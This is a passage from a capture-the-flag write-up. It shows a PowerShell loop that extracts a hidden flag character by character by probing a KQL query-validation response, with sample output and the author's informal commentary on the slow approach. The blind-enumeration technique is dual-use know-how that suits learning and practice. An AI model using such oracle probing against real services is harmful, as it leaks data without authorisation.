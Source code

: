 ```powershell
        if ($response.message -eq "KQL query is valid")  {
                # If the query is valid, skip to next
                continue
        } else {
            Write-Output "Found valid table name character: $currentPrefix"
            $found = $true
            $currentPrefix += $char
            $runCount++
        } 
    }
    # If we didn't find a valid character, we break the loop (usually means we're on the end of our path)
    if (-not $found) {
        Write-Output "No more matches found. Current flag": $currentPrefix"
        break
    }
    $runCount++
}
Write-Output "Completed search."
```

Output looks like this:

```plaintext
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF<
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF>
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF*
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF:
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF+
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF=
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF$
No more matches found. Current prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF
```

... there is a valid value `EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TF` in the database. At this point I'm just in too fucking deep to quit, the monkey 🧠 train continues 🚅! I just assume there's also one that's either `_TO` or `_T0` instead of `_TF`, so I just manually change the prefix and run the script again. 

```plaintext
Found valid table name character: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TO_BR
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TO_BRUV
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TO_BRUW
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TO_BRUX
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TO_BRUY
Running query with prefix: EPT{6X+JD$>THIS_IS_A_V3RY_LONG_FL4G_D0NT_TRY_TO_BRUZ
```

I see where this is going. This is a very slow method (partly the reason why we weren't able to finish the challenge during the competition), but it works. The script will output the flag in the end, but we might get other false positives and hurdles along the way. So there has to be a better way to do this.

> :memo: **Note:** During the CTF I never pivoted and kept bonking away at this like a madman. There was a lot of characters that just escaped my script and threw errors into my loop that I had to manually fix. Just goes to show that even when someone tries very hard to tell me "this isn't the correct way sir" I'll just be stubborn like a 🐴 (the donkey emoji didn't work).
